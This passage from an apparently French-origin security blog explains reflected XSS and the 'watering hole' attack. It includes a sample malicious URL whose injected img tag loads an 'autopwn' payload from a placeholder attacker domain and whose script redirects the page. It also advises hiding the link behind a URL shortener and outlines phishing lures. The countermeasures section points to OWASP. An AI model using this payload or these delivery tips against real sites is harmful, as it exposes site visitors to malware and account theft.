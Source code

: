 Well, it will be quite possible to put a malware wrapped in an **HTML img tag** directly in the **URL** in a **link**:
{: .text-justify}

{% highlight javascript %}
http://<domain_leggit_but_vulnerable>/Vous allez être redirigé, veuillez patienter...<img src='//<domaine_pirate>/autopwn' border='0' height='1' width='1'> <script>setTimeout(function(){top.location="//forum/"},5000);</script>
{% endhighlight %}

**User side:**

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/posts_img/XSS_flight1.png){: style="margin: 1em"}

So obviously we will only have a load on the somewhat _ **dodgy URL**: **http://<site_vulnerable>/Vous%20allez…**, but it is still possible to hide the link address using a site such as [bitly.com](https://bitly.com/) or whatever… And once the malware loads on the client side, well… you're done.
{: .text-justify}

The problematic countermeasure is shared for once. Of course, like **Stored XSS**, it is the vulnerable site owner's responsibility to ensure that all user input content is properly checked before use. But it is also everyone's responsibility to check what the links point to and not immediately click on any content that seems questionable, received by email or posted on a forum or social network. - _You can refer to the [OWASP site](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) for that._
{: .text-justify}

# **ANATOMY OF A WATERING HOLE**

Rather than a long speech, let's take a look at a **concrete** case that will give you a better idea of ​​the slyness of this attack type. Let me introduce you to the so called "**Watering Hole**" technique, which is divided into three phases:
{: .text-justify}

1. **Identification of the target:** maximizing the quality of the attack and the quantity of targets being the primary goal, the preliminary phase will consist in studying and learning the internet uses of the more or less large population who will be the target of the attack.
2. **The creation of a "water point":** the water point is the booby trapped page (_generally via the exploitation of an **XSS** vuln_) which will allow the hacker to attack his victims thanks to the malicious code injection vulnerability. This page usually contains the content sought by the targeted victims in order to avoid any suspicion.
3. **Fishing:** this step consists of creating and baiting potential victims via various vectors (_emails, fake advertising banners, link on a forum, post on a social network, etc._). For example, if the conspirators are the attack targets, then it could be an email with the hooking title such as "**FINALLY! EVERYTHING IS REVEALED! THE GOVERNMENT LIED US ABOUT…**".

The success of such an attack is determined by the following equation:
{: .text-justify}

{% highlight tcl %}
[number of potential targets]

x [ratio of use by these users of the targeted vulnerable application (s)]

x [stealth ratio]

x [attractiveness ratio]
____________________________________________________________________________
= [number of victims]
{% endhighlight %}
